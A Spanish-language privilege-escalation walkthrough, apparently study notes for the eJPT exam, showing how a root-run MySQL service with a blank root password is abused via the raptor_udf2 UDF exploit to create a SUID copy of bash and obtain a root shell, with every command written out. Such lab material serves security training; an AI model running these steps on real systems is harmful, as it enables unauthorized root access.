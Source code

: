 - Como primera medida ejecutamos el comando:

```
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

```

- Luego ejecutamos los comandos:

```
user@debian:~/tools/mysql-udf$ ps aux | grep mysql
root      1923  0.0  0.1   9180  1400 ?        S    17:21   0:00 /bin/sh /usr/bin/mysqld_safe
root      2048  0.0  2.3 163616 24172 ?        Sl   17:21   0:00 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
root      2049  0.0  0.0   3896   644 ?        S    17:21   0:00 logger -t mysqld -p daemon.error
user      2682  0.0  0.0   7588   852 pts/0    S+   17:43   0:00 grep mysql
```

para poder observar si el servicio de mysql esta ejecutandose

- El servicio MySQL se ejecuta como root y el usuario "root" del servicio no tiene una contraseña asignada. Podemos utilizar un exploit popular que aprovecha las funciones definidas por el usuario (UDF) para ejecutar comandos del sistema como root a través del servicio MySQL.

- Compilamos el exploit raptor_udf2.c (https://github.com/ankh2054/MySQL-UDF/blob/master/raptor_udf2.c) con los siguientes comandos:

```
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

- Nos conectamos al servicio MySQL como usuario root con una contraseña en blanco:

```
mysql -u root
```

- Ejecute los siguientes comandos en el shell MySQL para crear una función definida por el usuario (UDF) "do_system" utilizando nuestro exploit compilado

```
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

- Utilice la función para copiar /bin/bash a /tmp/rootbash y establecer el permiso SUID:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

- Salga del shell MySQL (escriba exit o \q y presione Enter) y ejecute el ejecutable /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:

```
./rootbash -p
```

y listo ya tenes un shell como root.

enlace:
[Preparacion-Ejpt](Preparacion-Ejpt.md)



